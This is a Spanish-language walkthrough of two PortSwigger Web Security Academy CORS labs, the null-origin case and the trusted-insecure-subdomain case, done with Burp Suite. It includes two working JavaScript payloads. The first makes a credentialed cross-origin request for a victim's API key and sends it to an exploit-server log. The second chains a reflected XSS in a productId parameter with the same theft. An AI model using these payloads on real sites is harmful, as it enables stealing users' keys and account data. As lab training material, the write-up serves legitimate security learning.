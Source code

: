 Este laboratorio es muy similar al anterior, difiriendo en que, al mandar la request al repeater y setear el header Origin como null, la respuesta tendrá el encabezado Access-Control-Allow-Origin como null.

Para resolver este lab, copiamos la url de la sección Home, y le anexamos "accountDetails" (debido a que a esta url se hacen las peticiones que devuelve la apikey, se puede ver analizando el HTTP History de burpsuite), y la pegamos en la línea del req.open del siguiente script. Por último, copiamos la url del exploit server del laboratorio y la pegamos en la línea location, a la cual le concatenamos la apikey de la respuesta (también se podría usar un servidor externo como el burp collaborator).
Luego de pulsar el botón deliver exploit to victim, debemos ver las respuestas del servidor yendo a la sección Acces log. Una vez allí, buscamos "log?key", y lo que sigue será el apikey que debemos enviar.

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
        var req = new XMLHttpRequest ();
        req.onload = reqListener;
        req.open('get','https://ac6c1f321e10fef48028145c000f0017.web-security-academy.net/accountDetails',true);
        req.withCredentials = true;
        req.send();  
        function reqListener() {
            var x = JSON.parse(this.responseText);
            location='https://ac281f0c1eb1fe6c80d814b401080062.web-security-academy.net/log?key='+x.apikey;
        };
     </script>"></iframe>
```

### [CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

Al acceder a este laboratorio y autenticarnos, si en la página principal hacemos click en un botón view details, y en el drop-down del fondo de la página seleccionamos algo y hacemos click en Check stock, se nos abrirá una ventana indicando el stock level. Al igual que en los laboratorios anteriores, accediendo a la sección Account Details se puede ver impresa la apikey, y analizando la request y response haciendo uso del repeater de burpsuite, si en origin anteponemos "subdominio." a la url origen de la request, veremos que la respuesta sigue siendo válida.
Ahora, analizando con el intecept de burpsuite la ventana que se abre al clickear Check Stock mencionada anteriormente, podemos ver que se le envía un parámetro "/?productId=", yendo al decoder de burpsuite y codificando como URL lo siguiente "<img src=1 onerror=alert(1)>", si editamos la petición interceptada y le ponemos como parámetro de productId lo que acabamos de encodear, veremos que se ejecuta el alert que definimos. Por último, observando la url de dicha ventana, veremos que es un subdominio del laboratorio en el que estamos trabajando.

Para resolver el laboratorio, en el siguiente script deberemos pegar la url del mismo, teniendo cuidado en la línea de document.location, ya que en la misma debe ir el subdominio de la ventana que se abre al hacer click en Check stock. La url que debe ir dentro de la función reqListener es la del exploit server.

```html
<script>
   document.location="http://stock.ac6e1ff21fdb2eaa8059129e00570000.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://ac6e1ff21fdb2eaa8059129e00570000.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ac631f561f612e128085127d0143004d.web-security-academy.net/exploit/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
